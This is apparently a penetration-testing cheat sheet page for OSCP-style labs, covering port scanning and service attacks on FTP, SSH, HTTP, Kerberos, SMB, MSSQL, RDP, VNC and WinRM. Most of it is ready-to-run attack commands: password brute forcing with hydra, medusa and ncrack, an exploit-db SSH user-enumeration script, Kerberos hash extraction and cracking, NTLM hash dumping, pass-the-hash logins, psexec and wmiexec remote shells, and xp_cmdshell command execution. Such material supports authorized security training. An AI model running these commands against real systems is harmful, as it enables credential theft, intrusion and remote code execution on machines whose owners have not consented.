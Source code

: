 ```yaml
---
sidebar_position: 3
---
```


# Port and Service Scanning

This page provides a comprehensive guide for port scanning and service enumeration, including practical commands and tips for various tools and protocols. Use these techniques to discover open ports, identify services, and perform further enumeration or attacks during penetration testing.

## General Port Scanning Tools

### AutoRecon

- [AutoRecon GitHub](https://github.com/Tib3rius/AutoRecon)
- Automated network reconnaissance tool for OSCP-style labs.

```bash
sudo ~/.local/bin/autorecon -o ~/oscp 10.11.1.1
```

```bash
sudo chown -R kali:kali . ; find . -type d -exec touch {}/.gitkeep \;
```

### masscan

- [masscan GitHub](https://github.com/robertdavidgraham/masscan)
- Extremely fast port scanner.

```bash
sudo masscan -p1-65535 10.11.1.1/32 --rate=1000 -e tun0 | tee masscan.txt
```

### nmap

- The de facto standard for port scanning and service enumeration.

```bash
nmap -Pn -sV -sC -p<port> 10.11.1.1 | tee nmap.txt
```

### OneTwoPunch

- [OneTwoPunch GitHub](https://github.com/superkojiman/onetwopunch)
- Combines masscan and nmap for efficient scanning.

```bash
echo "10.11.1.1" > target.txt
sudo bash ~/tool/onetwopunch/onetwopunch.sh -t target.txt -p tcp -i tun0 | tee otp-tcp.txt
sudo bash ~/tool/onetwopunch/onetwopunch.sh -t target.txt -p udp -i tun0 | tee otp-udp.txt
```

> Use `-i eth0` to specify a different interface.

## Common Ports and Service Enumeration

For a list of common ports, see [PacketLife Common Ports PDF](https://packetlife.net/media/library/23/common_ports.pdf).

Below are practical tips and commands for enumerating and attacking common services:

### 21/tcp - FTP

- Anonymous login: `anonymous / anonymous`
- File operations: `ls`, `cd`, `get`, `put`

**Default Password Brute Force:**

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 10.11.1.1 ftp
```

**Nmap Scripts:**

```bash
nmap --script 'ftp-*' -p 21 10.11.1.1
```

**Password Brute Force:**

```bash
hydra -t 1 -l username -P /usr/share/john/password.lst -vV 10.11.1.1 ftp
medusa -h 10.11.1.1 -u username -P /usr/share/john/password.lst -t 4 -M ftp
```

### 22/tcp - SSH

- Connect: `ssh username@10.11.1.1`
- Use `-i ~/.ssh/id_ed25519` for key file, `-p 2222` for custom port

**User Enumeration (OpenSSH `<=` 7.7):**

```bash
pyenv shell 2.7.18 ; pip install -U paramiko
python /usr/share/exploitdb/exploits/linux/remote/45939.py 10.11.1.1 username
```

**Default Password Brute Force:**

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 10.11.1.1 ssh
```

**Known Key Brute Force:**

```bash
crowbar -b sshkey -s 10.11.1.1/32 -u username -k ~/tool/ssh-badkeys/authorized
```

**Password Brute Force:**

```bash
hydra -l username -P /usr/share/john/password.lst -t 4 10.11.1.1 ssh
medusa -h 10.11.1.1 -u username -P /usr/share/john/password.lst -M ssh
ncrack -p 22 --user username -P /usr/share/john/password.lst 10.11.1.1
```

**Username & Password Brute Force:**

```bash
hydra -e nsr -L /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -t 4 10.11.1.1 ssh
medusa -h 10.11.1.1 -U user.txt -P /usr/share/john/password.lst -M ssh
```

### 80/tcp - HTTP

- Use tools like `nikto`, `gobuster`, and check `robots.txt` for hidden paths.

**Directory Brute Force:**

```bash
gobuster dir -w /usr/share/dirb/wordlists/big.txt -s '200,204,301,302,307,403,500' -e -u http://10.11.1.1/
gobuster dir -w /usr/share/dirb/wordlists/big.txt -s '200,204,301,302,307,403,500' -e -u http://10.11.1.1/internal/
```

> Use `-k` to ignore invalid certificate errors.

### 88/tcp - Kerberos

- User enumeration and hash extraction using [kerbrute](https://github.com/ropnop/kerbrute) and Impacket tools.

**User Enumeration:**

```bash
sudo nano /etc/hosts
10.11.1.1 domain.local domain.local
./kerbrute_linux_amd64 userenum -d domain.local --dc domain.local /usr/share/seclists/Usernames/Names/names.txt
```

**Get Password Hashes:**

```bash
python GetNPUsers.py domain.local/ -no-pass -usersfile user.txt
hashcat -a 0 -m 18200 hash.txt /usr/share/john/password.lst --force
```

**Dump NTLM Hashes:**

```bash
python3 secretsdump.py -dc-ip domain.local admin:password@domain.local
```

**Pass The Hash (NTLM Hash & 5985/tcp):**

```bash
evil-winrm -u Administrator -H 0e0*** -i domain.local
```

### 139/445/tcp - SMB

- File sharing, enumeration, and exploitation using `smbclient`, Impacket, and Metasploit.

**List Shares:**

```bash
smbclient -L //10.11.1.1/
smbclient -L //10.11.1.1/www
smbclient -L //10.11.1.1/www -U 'admin'
```

**Password Brute Force:**

```bash
python3 smbrute.py -h 10.11.1.1 -u root -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt
```

**Reverse Shell:**

- [Impacket RCE Guide](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

```bash
python psexec.py "user:pass"@10.11.1.1
python psexec.py -hashes aad***:0e0*** "user"@10.11.1.1
python dcomexec.py "user:pass"@10.11.1.1
python dcomexec.py -hashes aad***:0e0*** "user"@10.11.1.1
python wmiexec.py "user:pass"@10.11.1.1
python wmiexec.py -hashes aad***:0e0*** "user"@10.11.1.1
```

**Version Detection:**

```bash
bash ~/tool/smbver/smbver.sh 10.11.1.115 139
msf6 > use auxiliary/scanner/smb/smb_version
```

### 1433/tcp - MSSQL

- Microsoft SQL Server enumeration and exploitation.

**Connect:**

```bash
sqsh -S 10.11.1.1 -U sa
python mssqlclient.py -p 1433 sa:pass@10.11.1.1
```

**Brute Force:**

```bash
hydra -l sa -P /usr/share/wordlists/rockyou.txt 10.11.1.111 mssql
medusa -h 10.11.1.111 mssql -u sa -P /usr/share/wordlists/rockyou.txt -M mssql
nmap -Pn -n -sS --script 'ms-sql-xp-cmdshell.nse' 10.11.1.1 -p 1433 --script-args mssql.username=sa,mssql.password=password,ms-sql-xp-cmdshell.cmd="net user",mssql.instance-all
nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb="/usr/share/seclists/Usernames/top-usernames-shortlist.txt",passdb="/usr/share/seclists/Passwords/darkweb2017-top100.txt" 10.11.1.1
```

**RCE:**

- [Python MSSQL Shell](https://github.com/puckiestyle/python/blob/master/mssql_shell.py)
- [Metasploit Unleashed - MSSQL Payloads](https://www.offensive-security.com/metasploit-unleashed/payloads-mssql/)
- [Hacking Articles - MSSQL](https://www.hackingarticles.in/mssql-for-pentester-metasploit/)

### 3306/tcp - MySQL

- MySQL Database

**Connect:**

```bash
mysql -h10.11.1.1 -P3306 -uroot -p
```

### 3389/tcp - RDP

- Remote Desktop Protocol

**Connect:**

```bash
xfreerdp /f /u:user /p:pass /v:10.11.1.1
```

### 5900/tcp - VNC

- VNC remote desktop

**Password Brute Force:**

```bash
hydra -s 5900 -P /usr/share/john/password.lst -t 16 10.11.1.1 vnc
```

### 5985/tcp - WinRM

- Windows Remote Management

**Connect:**

```bash
evil-winrm -u user -p pass -i 10.11.1.1
evil-winrm -u Administrator -H 0e0*** -i domain.local
```
